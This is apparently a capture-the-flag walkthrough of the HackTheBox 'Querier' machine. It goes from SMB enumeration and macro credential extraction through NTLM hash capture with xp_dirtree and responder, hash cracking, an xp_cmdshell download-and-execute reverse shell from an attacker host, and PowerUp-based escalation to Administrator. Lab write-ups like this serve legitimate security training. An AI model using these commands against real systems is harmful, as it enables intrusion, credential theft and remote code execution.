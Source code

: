 # Querier [htb](https://app.hackthebox.com/machines/Querier)
![querier-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/querier-01.png)


## Recon 

Lets start by adding the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/hosts-02.png)

With that out of the way, we can start enumerating:

`nmap -sC -sV -p- -A querier.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/nmap-res-03.png)

We have the following:

+ RPC endpoint mapper on port 135.
+ netBIOS on port 139.
+ SMB on port 445.
+ Microsoft SQL server on port 1433.
+ HTTP-API on ports 5985 & 47001.
+ Other RPC related ports. 


The services that jump out the most to me are the SQL and SMB servers. Lets start by taking a look at the SMB though, maybe its misconfigured and we can access information we shouldn't. After that we'll take a look at the SQL server. 


## SMB port 445

Lets try to list out the SMB shares with a null session:

`smbclient -N -L \\\\querier.htb\\`

![shares-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/shares-04.png)

A null session is accepted, ideally this should not happen. Lets try to connect to the `Reports` share:

![smb-connect-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/smb-connect-05.png)

We can see the share hosts a single `.xlsm` file, this is a Microsoft Excel file. 
I use the following code to open the file on Linux:

```python
#!/usr/bin/python3

import sys
import pandas as pd

if len(sys.argv) != 2:
    print(f'Usage {sys.argv[0]} <input_xlsm_file>')
    sys.exit()

df = pd.read_excel(sys.argv[1], sheet_name=None)

for k,v in df.items():
    print(f'{k} = {v}')
```

However the file is empty: 

![empty-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/empty-06.png)

If we open the file through a Windows machine and click on `File`:

![button-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/button-07.png)


We can see the following:

![luis-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/luis-08.png)

At first i thought `Luis` is a username, and tried brute-forcing my way into the SQL server. This failed. 
So i decided to inspect the file by clicking the highlighted button which resulted in:

![inspect-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/inspect-09.png)

It says that the file has Maros configured. A macro is an action or a set of actions that can be recorded, named, saved and executed as many times as required and whenever desired. In other words its code. 

We can extract the macro code in clear text with a tool called [olevba](https://github.com/decalage2/oletools/wiki/olevba). You can download it with:

`sudo -H pip install -U oletools`

Once we have it installed we can extract the Macro code with:

`olevba 'Currency Volume Report.xlsm'`

![olevba-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/olevba-10.png)


This is an [SQL connection string](https://learn.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection.connectionstring?view=dotnet-plat-ext-7.0), the `Uid` is a username, and the `Pwd` is the password. 

Lets try to login to the SQL server with:

`impacket-mssqlclient reporting@querier.htb -windows-auth`

![sql-login-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/sql-login-11.png)

Were in! I tried enumerataing the database, as well as trying to pull off RCE, nothing worked for me. [source](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).

Our user has very little permissions on the server, and there isn't much to see on the database. 
I also tried using the credentials we found with `impacket` tools like `psexec`, `wmiexec`, etc. Nothing worked for me. 

So i decided to try a MITM attack to capture the `mssql-svc` service account NTLM hash. 
To do this we need to run `responder` on our kali machine:

`responder -I tun0 -dwv`

Then, in the SQL prompt, we need to tell the server to fetch a file from our kali via SMB. There is no file or SMB server on 
our kali, but in the process, the SQL server service itself well send over its NTLM
hash which we will capture with `responder`. (These sorts of attacks are more common in AD environments).

Once `responder` is running, on the SQL server execute the following:

`xp_dirtree '\\<attacker_IP>\any\thing'`


Now check responder: 

![responder-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/responder-12.png)

Lets crack it. 


First save it to a file:

![hash-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/hash-13.png)


Now we can use `hashcat` to crack NTLMv2 hashes as such:

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o mssql-svc.pass`


The hash gets cracked rather quickly:

![cracked-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/cracked-14.png)

Lets log back in to the SQL server with the new account, now we should be able to pull of an RCE. 

The first we need is a reverse shell script, i will [nishang's](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1`.

Copy this script over to your working directory, open it, and add the following at the end:

`Invoke-PowerShellTcp -Reverse -IPAddress <kali-ip> -Port 9001`


Next, over at the SQL server we need to enable advanced options:

```mssql
sp_configure 'show advanced options', '1'
RECONFIGURE
```


Now we can enable command execution with:

```mssql
sp_configure 'xp_cmdshell', '1
RECONFIGURE
```

On your kali start a python server:

`python3 -m http.server 80`

Start the listner: 

`nc -lnvp 9001`


Now we are ready to execute, on the SQL server run:

`EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://<kali-ip>/shell.ps1") | powershell -noprofile'`


Get a shell:

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/shell-15.png)


## Privilege Escalation


Lets cd into a directory we can work with:

`cd C:\Users\mssql-svc\appdata\local\temp`

From here, we can download and run [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). 
Once you have the script on you kali start a python server:

`python3 -m http.server 80`

From the target, download the script with:

`iwr http://kali-ip/PowerUp.ps1 -OutFile powerup.ps1`

Start a Powershell session and load the script with:

```cmd
powershell -ep bypass
. .\powerup.ps1
Invoke-AllChecks
```

![admin-pass-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/admin-pass-16.png)

There are a lot of leads we can take from the PowerUp output, but i think this is the easiest. 

All we need to do is use `psexec`:

`impacket-psexec QUERIER/Administrator:'MyUnclesAreMarioAndLuigi!!1!'@querier.htb`

![root-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/root-17.png)
